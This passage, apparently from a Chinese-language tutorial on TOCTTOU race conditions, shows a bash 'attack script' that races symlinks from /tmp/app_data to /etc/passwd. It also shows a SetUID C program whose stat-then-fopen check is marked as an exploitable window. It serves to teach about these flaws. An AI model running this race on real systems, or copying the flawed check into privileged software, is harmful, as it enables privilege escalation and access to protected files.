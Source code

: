 **攻击脚本**：

```bash
#!/bin/bash
# 攻击脚本：利用时间窗口
while true; do
    if [ ! -e /tmp/app_data ]; then
        ln -s /etc/passwd /tmp/app_data
        sleep 0.001
        rm -f /tmp/app_data 2>/dev/null
    fi
done
```

### 案例2：SetUID程序中的权限提升

```c
// 具有SUID权限的程序
int main(int argc, char* argv[]) {
    if (argc != 2) {
        fprintf(stderr, "Usage: %s <config_file>\n", argv[0]);
        return 1;
    }
    
    const char* config_file = argv[1];
    
    // 检查文件所有者（错误的安全检查）
    struct stat st;
    if (stat(config_file, &st) == -1) {
        perror("stat");
        return 1;
    }
    
    // 确保文件属于调用用户
    if (st.st_uid != getuid()) {
        fprintf(stderr, "Error: File not owned by user\n");
        return 1;
    }
    
    // *** TOCTTOU漏洞窗口 ***
    // 攻击者可以替换文件为指向敏感文件的符号链接
    
    // 以root权限打开并处理文件
    FILE* fp = fopen(config_file, "r");
    if (fp) {
        char buffer[1024];
        // 处理配置文件内容...
        fclose(fp);
    }
    
    return 0;
}
```
